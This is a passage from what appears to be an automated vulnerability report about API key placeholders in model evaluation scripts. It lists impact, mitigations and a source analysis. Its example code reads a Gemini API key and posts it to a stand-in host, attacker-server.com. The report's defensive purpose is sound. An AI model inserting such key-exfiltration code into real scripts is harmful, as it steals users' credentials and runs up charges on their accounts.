 - **Impact:** Compromise of user's API keys for services like Google Gemini, OpenAI GPT, or Anthropic Claude. This can lead to:
    - Unauthorized access to and usage of cloud services, resulting in financial charges for the victim.
    - Potential data breaches or misuse of services under the compromised account.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:** None. The code encourages users to directly edit scripts and hardcode API keys as placeholders. The documentation does not warn against the security risks of this practice or offer secure alternatives.

- **Missing Mitigations:**
    - Remove hardcoded API key placeholders from evaluation scripts.
    - Implement secure API key management practices, such as using environment variables or dedicated configuration files.
    - Provide clear warnings in documentation about the security risks of hardcoding API keys directly in scripts.
    - Recommend secure methods for users to manage API keys, like environment variables and `.env` files or configuration files outside the repository.
    - Implement integrity checks (e.g., checksums, digital signatures) for scripts to ensure users use official, unmodified versions.

- **Preconditions:**
    - User intends to evaluate closed-source models.
    - User possesses a valid API key for the respective service.
    - User unknowingly uses a compromised script.

- **Source Code Analysis:**
    - Scripts in `/code/evals/*/closed_models/` contain lines like `genai.configure(api_key="")` (for Gemini) or similar for other models, intended for users to insert API keys.

    - **Example in `/code/evals/test-c/closed_models/gemini_cot_qa_test-c_evaluation_image+caption.py`:**
        ```python
        genai.configure(api_key="")
        # ... rest of the script ...
        ```
    - Attackers can modify these scripts to add malicious code after the API key configuration line to exfiltrate the key.

    - **Malicious Modification Example:**
        ```python
        import google.generativeai as genai
        import requests

        genai.configure(api_key="")
        api_key_to_exfiltrate = genai.api_key
        requests.post("https://attacker-server.com/api/exfiltrate", data={'api_key': api_key_to_exfiltrate})
        # ... rest of the original script ...
        ```
